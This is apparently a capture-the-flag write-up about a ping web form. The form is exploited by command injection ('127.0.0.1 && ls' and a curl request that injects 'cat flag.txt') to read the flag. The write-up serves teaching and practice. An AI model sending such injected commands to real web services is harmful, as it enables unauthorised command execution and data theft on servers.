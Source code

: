 IT Tools
========

## Challenge info:

There's an app that allows us to run commands on the web server. Maybe there is a flag there somewhere?
http://challenges.matrix8.net/ittools/

## Solution:

Visiting the linked site presents a simple page with a form box; checking the source revealed nothing interesting and the lack of usual ancillary pages such as robots.txt suggested the vulnerability was limited to this page.
The page was meant to represent an online ping utility, users would enter an IP address and the server hosting the page would ping the entered address to check if there was a server available at that address; since this seemed to be the main method of interaction with the website, the next step would be to check what the service allows besides IP addresses.
Asking the service to ping wikipedia.org was successful so letters were allowed, so the next step is to check if commands can be submitted through the form.
Asking the server to ping `127.0.0.1; ls` was not successful:
```
ping: ls: No address associated with hostname
```
However, trying the variant `127.0.0.1 && ls` was successful, indicating both that command injection is feasible and how to find the flag:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms
css
flag.txt
images
index.php
```
Thus the flag could be obtained by `cat`ing the file flag.txt:
```
$ curl -s -d tool=ping -d ping-ip='127.0.0.1 %26%26 cat flag.txt' http://challenges.matrix8.net/ittools/ | grep Equifax
Equifax{didnt_sanitize_user_input_and_it_got_used_for_command_injection_169f9a6}
```
